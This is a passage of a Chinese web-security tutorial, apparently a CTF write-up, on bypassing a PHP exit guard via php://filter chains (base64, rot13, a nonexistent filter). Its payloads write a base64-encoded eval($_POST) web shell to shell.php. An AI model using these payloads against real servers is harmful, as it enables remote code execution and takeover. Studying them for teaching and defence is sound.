

payload

```bash
txt=PD9waHAgZXZhbCgkX1BPU1RbJ3Bhc3MnXSk7Pz4=&filename=php://filter/write=string.strip_tags|convert.base64-decode/resource=shell.php
```



### 3. rot13

除此之外，我们还可以**利用rot13编码独立完成任务。原理和上面类似，核心是将“死亡exit”去除。`<?php exit; ?>`在经过rot13编码后会变成`<?cuc rkvg; ?>`**，在PHP不开启short_open_tag时，php不认识这个字符串，当然也就不会执行了：





payload

```
php://filter/write=string.rot13/resource=shell.php
```



这种方法是需要服务器**没有开启短标签**的时候才可以使用（默认情况是没开启的：php.ini中的short_open_tag）





### 4. 加入不存在的过滤器

上面的场景中，考虑如下的payload：

`php://filter/write=string.strip_tags|sssss|convert.base64-decode/resource=shell.php`



其中ssss过滤器不存在，但是不妨碍我们写入shell，此处php只会报一个warning，并不会结束运行。

![image-20200906103602914](assets/image-20200906103602914.png)



